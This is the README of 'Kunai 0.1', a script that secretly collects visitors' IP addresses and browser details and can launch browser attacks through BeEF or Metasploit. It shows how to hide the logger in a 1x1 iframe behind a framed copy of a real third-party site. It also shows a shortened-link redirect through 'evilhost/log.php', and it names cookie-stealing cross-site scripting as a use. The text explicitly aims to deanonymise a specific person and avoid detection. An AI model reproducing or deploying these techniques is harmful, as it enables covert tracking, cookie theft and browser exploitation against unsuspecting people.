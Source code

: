 #Kunai 0.1
Sometimes there is a need to obtain ip address of specific person. This is what you need in such situations.

Kunai is a simple script which collects many informations about a visitor and save output to file; furthermore, you may try to perform attacks on user browser, using beef or metasploit. 

In order to grab as many informations as possible, script detects whenever javascript is enabled to obtain more details about a visitor. For example, you can include this script in iframe, or perform redirects, to avoid detection of suspicious activities. 

#Examples
- Fake website (more stable & better for autopwn & beef):
```
<iframe src="https://www.coloradopotguide.com/" style="border: 0; width: 100%; height: 100%"></iframe>
<iframe src="log.php" width="1" height="1" frameborder="0" ></iframe>
```
- Redirect (better for quick ip catching):
```
goo.gl/urlink -> evilhost/log.php -> site.com/kitty.png
```
- Cross Site Scripting (cookie stealing)
